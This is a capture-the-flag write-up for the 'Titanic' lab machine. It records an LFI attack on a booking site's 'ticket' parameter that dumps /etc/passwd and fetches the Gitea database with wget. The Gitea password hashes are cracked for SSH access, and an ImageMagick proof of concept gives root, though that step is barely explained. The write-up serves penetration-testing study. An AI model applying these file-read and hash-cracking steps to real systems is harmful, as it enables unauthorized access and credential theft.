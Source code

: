 # Titanic Machine - Notes

## Initial Foothold

1. **Nmap Scan**:
   - Discovered open ports: **HTTP** and **SSH**.

2. **Website Analysis**:
   - Found a booking URL on the website.
   - After making a reservation, noticed that the web server creates a route with the parameter `ticket` pointing to a file.

3. **Vulnerability**:
   - The `ticket` parameter is vulnerable to **Local File Inclusion (LFI)**.

## Exploitation

1. **Enumerating Users**:
   - Extracted `/etc/passwd` using LFI:
     ```
     root:x:0:0:root:/root:/bin/bash
     daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
     bin:x:2:2:bin:/bin:/usr/sbin/nologin
     sys:x:3:3:sys:/dev:/usr/sbin/nologin
     sync:x:4:65534:sync:/bin:/bin/sync
     games:x:5:60:games:/usr/games:/usr/sbin/nologin
     man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
     lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
     mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
     news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
     uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
     proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
     www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
     backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
     list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
     irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
     gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
     nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
     _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
     systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
     systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
     messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
     systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
     pollinate:x:105:1::/var/cache/pollinate:/bin/false
     sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
     syslog:x:107:113::/home/syslog:/usr/sbin/nologin
     uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
     tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
     tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
     landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
     fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
     usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
     developer:x:1000:1000:developer:/home/developer:/bin/bash
     lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
     dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
     _laurel:x:998:998::/var/log/laurel:/bin/false
     ```

2. **Retrieving the User Flag**:
   - Accessed the user flag:
     ```
     /home/developer/user.txt
     ```

3. **Gitea Configuration**:
   - Found the Gitea configuration file:
     ```
     /home/developer/gitea/data/gitea/conf/app.ini
     ```

   - Discovered a path to the MySQL database:
     ```
     wget http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db
     ```

4. **Extracting and Cracking Hashes**:
   - Used the following GitHub repository to extract and convert hashes into a crackable format:
     [gitea2hashcat](https://github.com/f4dee-backup/gitea2hashcat)

   - Successfully cracked the password for the `developer` user.

5. **SSH Access**:
   - Logged in as `developer` via SSH using the cracked password.
6. **Root access**
   - Found a vulnerable version of version magick, and used the POC (didn't really get it) 
## Notes
- The LFI vulnerability was key to accessing sensitive files.
- The Gitea database contained hashes that were extracted and cracked to gain access.
- Always check for configuration files like `app.ini` when enumerating services like Gitea.